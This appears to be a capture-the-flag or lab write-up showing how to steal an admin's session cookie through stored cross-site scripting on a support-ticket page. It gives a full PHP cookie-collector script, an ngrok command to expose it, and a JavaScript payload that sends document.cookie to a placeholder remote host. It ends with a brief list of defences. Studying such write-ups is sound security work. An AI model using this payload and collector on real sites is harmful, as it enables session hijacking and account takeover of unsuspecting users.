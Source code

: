 We are giving a website with 2 users

**_A normal user page :_**


![](https://i.imgur.com/SeBIL1f.png)



**_An admin page_**



![](https://i.imgur.com/xcjIfUR.png)


**The task here is to steal the Admin cookie via stored xss, so we can automatically be logged in as admin**

## **Understanding the flow**


- Starting with a basic XSS payload i wanted to understand the flow of this application, so i sent our payload to the **Admin** via the support ticket page of the normal user

![](https://i.imgur.com/THMNNRs.png)

- Navigating to the admin page and refreshing it, we truly have stored XSS

![](https://i.imgur.com/0mXRLZ1.png)



## **Preparing our Exploit**


- First of all since we will be using **Ngrok** as our server, we need to create a Script that will take the logs of our admin and save it to a `.txt` file every time he tries to login or refresh his browser made by [@Ravid11345277](https://twitter.com/Ravid11345277). As seen below we can save this PHP code in our file system with the extension `.php`

```PHP
<?php

$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
$ua=$_SERVER['HTTP_USER_AGENT'];


$fp=fopen('cookies.txt' , 'a+');

fwrite($fp, $ip.' '.$ua."\n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);

?>
```



- Now start up your **Ngrok** server with the following command, where the `PHP` file was saved

```bash
$ ngrok http 80
```



![](https://i.imgur.com/PNGlTEU.png)


- Navigating to the normal user page we can craft the XSS payload that will steal the **Admin** user cookies by sending them to a remote server, which in this case is the `xss.php` file we created :

```js
<script> var i=new Image(); i.src="<NGROK-LINK-GOES-HERE>/xss.php?cookie="+document.cookie;</script>
```

- But just before we do anything let confirm if our **Ngrok** server is working by copying the forwarding link and calling the `PHP` file we created then, so your link should look like this

```
https://52c8-102-89-32-48.ngrok-free.app/{filename}.php
```

![](https://i.imgur.com/klOJ6Lz.png)


> **Note :** I added the `?test` parameter so i will see if it works when i navigate to `cookies.txt`

- Booyah, Navigating to `/cookies.txt` we can see our server is up and running, **P.N :** I blocked my public IP, you should know why 😆 

![](https://i.imgur.com/snNWgvj.png)



## **Launching Our Exploit**

Since we know things are good to go, we can take our malicious XSS payload and attempt to get the **admin** cookie in `/cookies.txt`

- Copy your malicious XSS payload and make sure to replace the `NGROK-LINK-GOES-HERE` with the right **Ngrok** server link, then we can **Submit** it to the **Admin**

```js
<script> var i=new Image(); i.src="<NGROK-LINK-GOES-HERE>/xss.php?admin_cookie="+document.cookie;</script>
```

![](https://i.imgur.com/BFAUqoa.png)


- Navigating to the **Admin** page, we can refresh the page and we have `test 2` created already

![](https://i.imgur.com/YrVmwf6.png)


- Referring back to `/cookies.txt` we have our admin cookie dumped

![](https://i.imgur.com/MbMCQdE.png)

This doesn't only affect the admin user, every user cookie will automatically be dumped once there is a page refresh and we have an account takeover right there, there are various ways to prevent this kind of attacks, here are few


- **Input Validation and Sanitization**
- **Content Security Policy (CSP)**
- **Use Security Headers**
- **Web Application Firewall (WAF)**
- **Security Testing**